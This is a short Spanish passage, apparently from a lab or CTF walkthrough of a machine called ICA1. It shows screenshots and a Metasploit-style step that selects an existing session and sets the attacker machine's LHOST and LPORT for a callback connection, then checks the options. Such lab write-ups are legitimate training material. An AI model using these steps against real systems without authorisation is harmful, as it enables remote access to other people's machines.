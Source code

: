 ![alt text](../assets/images/ICA1/image-81.png)

Defino la session a usar, la ip de mi maquina atacante y un puerto libre de mi maquina

```sh
set session 3
set LHOST 192.168.88.3
set LPORT 7331
```

![alt text](../assets/images/ICA1/image-82.png)

Compruebo que todo esta en orden con el comando `options`

![alt text](../assets/images/ICA1/image-83.png)
